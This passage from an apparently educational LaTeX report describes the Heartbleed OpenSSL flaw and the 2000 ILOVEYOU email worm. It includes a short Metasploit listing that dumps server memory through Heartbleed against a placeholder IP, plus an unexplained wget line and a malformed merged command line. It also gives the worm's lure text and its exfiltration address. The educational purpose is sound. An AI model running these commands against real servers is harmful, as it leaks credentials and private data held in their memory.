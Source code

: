\subsection{Heartbleed}
A heartbeat request asks for a open ssl session to be checked of a given length and content. 
The length was never checked though so it would read from outside the buffer potentially revealing passwords. Thousands of web servers were vulnerable, 
including yahoo. A patch was needed to fix this. It resulted in the ability for an attacker to reveal contents stored in memory, such as credentials and other important information.

The attack is simple, as such a metasploit module is available:
\begin{tcblisting}{listing only}
wget --post-file=data https://<serverIP>/index.php --no-check-certificate

use auxiliary/scanner/ssl/openssl_heartbleed
set rhost <server IP here>set action DUMP
set verbose true
exploit
\end{tcblisting}

\subsection{Loveletter}
Love Letter, also known as ILOVEYOU is a worm that circulated in the year 2000. It was an email based malware that uses a VBS script to hijack Outlook, and send then itself to the contacts book. \citep{Loveletter}
It can be speculated that this was particularly potent due to the culture of the internet at the time, where most people who communicated, did it via email. This means that a typical contact book was full enough for this attack to be effective, while also leveraging
the trust element of the hijacked sender.

Contents \citep{Loveletter}:

The Subject:          ILOVEYOU

Message body:         kindly check the attached LOVELETTER coming from me.

Attached file name:   LOVE-LETTER-FOR-YOU.TXT.vbs

The malware then proceeds to implant itself into the system, and modify the Internet explorer start page to one of four that hosts a Trojan payload. The Trojan itself is designed to install into registry, just like the stager, and then capture system data to exfiltrate out to the Trojan host via email (mailme@super.net.ph). \citep{loveletter}

